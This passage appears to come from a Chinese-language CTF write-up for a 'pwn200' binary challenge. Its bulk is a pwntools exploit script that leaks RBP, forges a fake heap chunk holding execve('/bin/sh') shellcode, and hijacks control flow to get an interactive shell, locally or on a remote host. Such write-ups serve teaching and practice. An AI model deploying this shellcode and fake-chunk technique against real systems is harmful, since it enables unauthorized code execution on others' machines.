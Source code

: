 这就是溢出的情况，从上面可以看到，当输入buf之后，程序会直接崩溃。

## exp
先贴上exp吧，可以先大致看一下：

```python
from pwn import *
elf = ELF("./pwn200")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
sh = 0

def init(leak):
	sh.sendafter("who are u?\n",leak)

def fake(payload):
	sh.sendlineafter("give me your id ~~?","31")
	sh.sendafter("give me money~",payload)

def checkin(idx,payload):
	sh.sendlineafter("your choice : ","1")
	sh.sendlineafter("how long?\n",str(idx))
	sh.sendafter(str(idx)+'\n',payload)

def checkout():
	sh.sendlineafter("your choice : ","2")

def main(ip,port,debug,mode):
	global sh
	if debug==0:
		context.log_level = "debug"
	else:
		pass
	if mode==0:
		sh = process("pwn200")
	else:
		sh = remote(ip,port)

	#Step 1: leaking $RBP
	#gdb.attach(sh)
	init('a'*0x30)	#leak reg_RBP to caculate &shellcode
	#start leaking
	sh.recvuntil("a"*0x30)
	reg_RBP = u64(sh.recv(6).ljust(8,"\x00"))
	success("RBP register ===> "+hex(reg_RBP))

	#Step 2: fake chunk
				# "\x00" to cut off strcpy()
	shellcode = "\x00\x31\xf6\x48\xbb\x2f\x62\x69\x6e"
	shellcode += "\x2f\x2f\x73\x68\x56\x53\x54\x5f"
	shellcode += "\x6a\x3b\x58\x31\xd2\x0f\x05"
	payload = (shellcode+p64(0)*2+p64(0x41)).ljust(0x38,'\x00')
	payload = payload+p64(reg_RBP-0x90)
	fake(payload)
	#gdb.attach(sh)
	checkout()
	#gdb.attach(sh)
	checkin(0x30,p64(0)*3+p64(reg_RBP - 0xc0 + 1))
	#gdb.attach(sh)
	sh.recv()
	
	sh.sendline('3')
	sh.interactive()

if __name__ == '__main__':
```